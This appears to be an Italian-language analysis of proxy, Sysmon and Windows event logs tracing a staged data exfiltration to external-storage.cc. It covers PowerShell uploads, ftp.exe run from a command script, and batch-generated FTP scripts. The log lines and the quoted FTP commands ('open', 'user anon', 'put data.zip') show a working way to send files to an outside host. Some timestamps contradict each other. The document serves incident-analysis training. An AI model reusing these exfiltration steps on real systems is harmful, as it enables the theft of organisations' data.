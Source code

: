 


# Logs 
Network & Endpoint Logs

![ ](../image/7a.png)

# Ricognizione
```
└── 11:05:03 PROXY01 ... suspicious GET http://external-storage[.]cc/storage/credentials[.]txt (da 10.20.14.55)
```
Alle 11:05:03 il primo passo di ricognizione, un client interno (IP 10.20.14.55) contatta tramite Proxy01 il dominio sospetto external-storage.cc, chiedendo un file chiamato `credentials.txt`. Questo tipo di richiesta serve all’attaccante per verificare se il server C2 è attivo e pronto a ricevere dati. È come un “ping” iniziale per stabilire contatto.
Subito dopo inizia la vera esfiltrazione dei dati.
```
└── 11:05:25 powershell.exe (User a.wilson, parent=explorer.exe) ... PUT data.zip to external-storage.cc
     └── 11:05:27 FileCreate ... data.zip scritto (SHA256=A3B1C…)
     └── 11:05:35 TCP connect ... 198.51.100.12:80
     └── 11:05:37 PROXY01 POST ... data.zip 65 KB to external-storage.cc
     └── 11:05:52 cmd.exe cleanup ... cancella data.zip (child of powershell)
```
La prima tecnica avviene con PowerShell.. powershell.exe (PID 6120, utente CORP\a.wilson) prova a caricare un file data.zip verso external-storage.cc con metodo HTTP PUT. Due secondi dopo, Sysmon registra la creazione effettiva del file ZIP, contenente dati interni. Alle 11:05:35 il processo apre una connessione TCP verso `198.51.100.12:80`, e il proxy conferma un upload POST da 65 KB.Infine cmd.exe cancella data.zip

La seconda tecnica sfrutta l’utility di Windows ftp.exe. Alle 11:05:41 il processo parte con parametro -s:ftp_commands.txt, cioè un file di script con comandi predefiniti. Subito dopo richiede accesso a data.zip, e alle 11:05:49 apre una connessione sulla porta 21 (FTP) verso lo stesso dominio esterno. Questo conferma che il file è stato inviato tramite FTP automatizzato.

# Metodo di Esfiltrazione 2  (Client FTP)
```
└── 11:05:41 ftp.exe -s:ftp_commands.txt external-storage.cc (spawned post-cleanup)
     └── 11:05:42 / 11:05:45 ... handle + accesso a data.zip
     └── 11:05:49 TCP connect ... external-storage.cc:21
     └── 11:06:25 FileCreate ... ftp_commands.txt (istruzioni FTP)
     └── 11:06:33 cmd.exe ... scrive batch script FTP (parent=ftp.exe)
```
Alle 11:05:41 viene eseguito il process ftp.exe con il parametro `-s:ftp_commands.txt`. Questo significa che l’attaccante non digita i comandi a mano, ma usa un file di script che contiene tutte le istruzioni necessarie. Così l’FTP lavora in automatico e silenziosamente.
Subito dopo, tra le 11:05:42 e le 11:05:45, i log di sicurezza mostrano che ftp.exe ha richiesto un handle e ha letto il file data.zip. In pratica, sta aprendo il file per prepararlo al trasferimento. 

Poi Sysmon registra una connessione TCP verso external-storage.cc sulla porta 21, che è la porta standard del protocollo FTP. Questo conferma che la sessione FTP è stata effettivamente stabilita con il server esterno.
11:06:25, viene creato un nuovo file `ftp_commands.txt`, questa volta generato automaticamente. È uno script con comandi come open `external-storage.cc, user anon, put data.zip, e infine bye`. Questo tipo di file serve a dire al client FTP di aprire la connessione, accedere con utente anonimo e caricare il file senza interazione umana.

11:06:33, infatti, un nuovo cmd.exe scrive un secondo script FTP, stavolta con istruzioni per caricare anche `data2.zip`. Questo mostra come l’attaccante stia usando più tentativi, diversificando i metodi di esfiltrazione per aumentare le chance di successo.

# Metodo di Esfiltrazione 3 ( Automazione Batch / Second File)

```
└── 11:06:33 cmd.exe (batch automation) 
     └── 11:06:37 FileCreate ... data2.zip
     └── 11:06:41 TCP connect ... external-storage.cc:21
     └── 11:06:45 FileCreate ... data2.zip confermato (secondo metodo di esfiltrazione)
     └── 11:06:59 RegistryValueSet ... HKCU\Software\Corp\LastExfil = external-storage.cc (execution marker)
```
Alle 11:06:37 i log mostrano la creazione di un nuovo file chiamato data2.zip. l’attaccante non si limita a un solo file, ma prepara un ulteriore archivio da inviare al server esterno. Subito dopo, il processo cmd.exe stabilisce una connessione TCP verso il dominio `external-storage.cc ` utilizzando la porta 21, che è quella standard del protocollo FTP. Questo significa che il file appena creato è destinato ad essere trasferito tramite una sessione FTP.

Un elemento interessante è che poco prima, tra le 11:06:25 e le 11:06:33, viene creato un nuovo file `ftp_commands.txt`. Non si tratta di un file scritto manualmente, ma di uno script generato direttamente da cmd.exe usando comandi `echo`. Dentro questo script ci sono le istruzioni per aprire la connessione FTP, accedere con utente anonimo, caricare il file data2.zip e infine chiudere la sessione con un comando di uscita. In questo modo l’attaccante non deve digitare nulla, tutto avviene in automatico e silenziosamente.

Alle 11:06:45, i log segnalano nuovamente la creazione di data2.zip, probabilmente perché il file è stato copiato o riscritto durante il processo di upload. Questo mostra che l’attaccante ha predisposto un meccanismo ridondante per assicurarsi che il file fosse effettivamente pronto al trasferimento. 

Infine, Sysmon registra una modifica al Registro di Windows...la chiave `HKCU\Software\Corp\LastExfil` viene aggiornata con il valore `“2025-08-22T11:05:37 external-storage.cc”`. significa che l’attaccante tiene traccia delle esfiltrazioni completate, lasciando un piccolo segno interno che funge da checkpoint per futuri attacchi o per evitare duplicazioni.


# 


```
 └── 11:06:08 Security 4634 ... User a.wilson logoff
 └── 11:10:05 Security 4625 ... Tentativo fallito di logon (possible account lockout)
```
Alla fine delle attività di esfiltrazione, i log mostrano la chiusura della sessione dell’utente. Alle 11:06:08, l’account a.wilson effettua un logoff interattivo dal portatile WIN10-LAPTOP, segnalato come Security EventID 4634. indica che l’attaccante, o lo script usato, ha terminato la sessione probabilmente per nascondere meglio le tracce o per chiudere l’attività senza lasciare processi attivi in memoria. Poco dopo, alle 11:10:05, compare un tentativo di accesso fallito con lo stesso account, CORP\a.wilson, che genera un Security EventID 4625. Questo evento potrebbe indicare che l’account è stato bloccato dopo gli abusi.


